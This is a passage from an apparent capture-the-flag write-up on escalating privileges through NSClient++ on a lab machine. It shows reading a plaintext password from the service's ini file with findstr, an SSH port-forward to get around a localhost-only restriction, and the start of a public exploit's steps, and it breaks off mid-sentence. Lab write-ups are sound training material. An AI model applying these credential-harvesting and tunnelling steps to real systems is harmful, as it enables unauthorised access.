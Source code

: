 **Note: We are going to be using windows cmd and powershell from here on out, so please be sure to get familiar with the commands for both:**

**Windows CMD cheat sheet:** https://www.stationx.net/windows-command-line-cheat-sheet/

**Powershell cheat sheet:** https://www.stationx.net/powershell-cheat-sheet/

Now let's see if we can get root using the NSClient++ exploit:

### Weaponization round two (root flag)

First, I tried logging into nsclient++ using passwords from the password file, but no luck there unfortunately. I did do some googling to see if NSClient++ has some documentation about passwords, and it does seen we can find those in the ini file: https://answerhub.nagios.com/support/s/article/Configuring-NSClient-b82d58d1

``` shell
nadine@SERVMON c:\Program Files\NSClient++>type nsclient.ini | findstr "password"
password = ew2x6SsGTxjRwXOT
```

I then tried to login using this password but I got a not allowed message. 

I dug back through the docs and the ini to see if I was missing something and it looks like I was:

``` shell
; Undocumented key
allowed hosts = 127.0.0.1
```

Looks like it only allows for localhost to do the traffic.

we could edit the file, or we could try and make a tunnel via ssh and do some port forwarding so we can register as the localhost. 

``` shell
ssh nadine@10.129.181.247 -L 8443:127.0.0.1:8443
```

Now let's try logging in at the new address:

``` shell
https://127.0.0.1:8443/index.html#/
```

when we put in the password, looks like we are now in!

Now to execute the exploit, we need to make sure the following is done as per the exploit-db entry: https://www.exploit-db.com/exploits/46802

Exploit:
### 1. Grab web administrator password 
- open c:\\program files\\nsclient++\\nsclient.ini
or
- run the following that is instructed when you select forget password
	C:\\Program Files\\NSClient++>nscp web -- password --display
	Current password: SoSecret

**[COMPLETED]** you can either check the ini using findstr or run that command for the 
